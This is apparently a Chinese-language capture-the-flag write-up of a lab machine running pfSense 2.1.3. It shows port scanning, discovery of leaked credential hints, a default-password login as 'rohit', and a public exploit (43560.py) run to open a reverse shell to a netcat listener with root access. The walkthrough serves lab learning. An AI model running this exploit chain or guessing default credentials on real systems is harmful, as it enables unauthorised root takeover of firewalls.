 kali 10.10.16.5

靶机 10.10.10.60



```bash
└─# ports=$(nmap -p- -sS -n --min-rate=1000 $ip | grep -oE '(^[0-9][^/tcp]*)' | tr '\n' ',')
└─# nmap -p$ports -sV -sC -O $ip -oN nmap.txt
PORT    STATE SERVICE  VERSION
80/tcp  open  http     lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
443/tcp open  ssl/http lighttpd 1.4.35
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_http-server-header: lighttpd/1.4.35
|_ssl-date: TLS randomness does not represent time
|_http-title: Login
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: specialized
Running (JUST GUESSING): Comau embedded (92%)
Aggressive OS guesses: Comau C4G robot control unit (92%)
No exact OS matches for host (test conditions non-ideal)
```



```bash
└─# searchsploit lighttpd -m 31396
```



访问 http 80 端口跳转到 https 443

<img src=".\图片\Snipaste_2023-09-08_09-41-32.png" alt="Snipaste_2023-09-08_09-41-32" style="zoom:80%;" />

登录框有 token 字段，好像不方便爆破



假装是字典扫到的，我没扫到

```http
https://10.10.10.60/system-users.txt
```

```
####Support ticket###

Please create the following user


username: Rohit
password: company defaults
```



再扫不到web上下文了，重新回头看，找相关 cms，新招数，谷歌识图，得到 cms 可能为 pfsense

<img src=".\图片\Snipaste_2023-09-08_10-17-17.png" alt="Snipaste_2023-09-08_10-17-17" style="zoom:67%;" />



```http
https://10.10.10.60/changelog.txt
```

```
# Security Changelog 

### Issue
There was a failure in updating the firewall. Manual patching is therefore required

### Mitigated
2 of 3 vulnerabilities have been patched.

### Timeline
The remaining patches will be installed during the next maintenance window
```



尝试弱密码

**pfSense**  的默认账号为"admin"，默认密码为"pfsense"。尝试失败，结合以上 `system-users.txt` 信息

```
Rohit:pfsense  失败
rohit:pfsense  成功
```



进入后台，得到版本 `2.1.3-RELEASE`

```
2.1.3-RELEASE (amd64)
built on Thu May 01 15:52:13 EDT 2014
FreeBSD 8.3-RELEASE-p16
```



```bash
└─# searchsploit pfsense 2.1
```



漏洞利用

```bash
└─# python 43560.py --rhost 10.10.10.60 --lhost 10.10.16.5 --lport 1234 --username rohit --password pfsense
CSRF token obtained
Running exploit...
Exploit completed
```

```bash
└─# nc -lvvp 1234            
listening on [any] 1234 ...
connect to [10.10.16.5] from 10.10.10.60 [10.10.10.60] 36345
sh: can't access tty; job control turned off
# id
uid=0(root) gid=0(wheel) groups=0(wheel)
```



心得：目录扫不到时，要回头看看，终点找到web网站的cms及其版本，再漏洞利用

谷歌识图 找 cms 用上
